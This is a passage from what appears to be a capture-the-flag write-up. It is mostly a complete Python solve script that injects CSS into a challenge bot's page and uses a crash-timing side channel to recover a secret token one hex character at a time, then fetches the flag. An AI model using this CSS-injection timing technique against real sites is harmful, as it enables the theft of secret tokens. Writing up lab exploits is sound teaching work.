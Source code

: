 whereas if the crash css doesnt match, 1s after the iframe loads the program kills itself, which is less than 10s

### My Solve Script

{% ccb lang:py caption:solve.py gutter1:1-12,,13-43 wrapped:true scrollable:true %}
import requests
import time

URL = "https://another-csp-29fd2dc3c47b031a.mc.ax/" # change
BOT_URL = URL + "bot"
FLAG_URL = URL + "flag"

MIN_TIME = 5
MAX_TIME = 15

def check(a):
    code = "<style>[data-token ^= \"" + a + "\"] {--c1: color-mix(in srgb, blue 50%, red);--c2: srgb(from var(--c1) r g b);background-color: var(--c2);}</style>"
    res = requests.get(BOT_URL, params={"code": code}).text
    start_time = time.time()
    diff = "error"
    while True:
        time.sleep(1)
        res = requests.get(BOT_URL).text
        if res == "no":
            break
        if "404" in res:
            print("ITS JOEVER; THE CONTAINER HAS DIED")
            break
        diff = time.time() - start_time
        # too long already
        if diff > MAX_TIME:
            return "error"
    return diff

possible = "0123456789abcdef"
known = ""
for i in range(6):
    for c in possible:
        t = check(known + c)
        while t == "error":
            t = check(known + c)
        print(f"{known + c}: {t}")
        if MIN_TIME < t and t < MAX_TIME:
            known += c
            break

print(known)
print(requests.get(FLAG_URL + "?token=" + known).text)
{% endccb %}
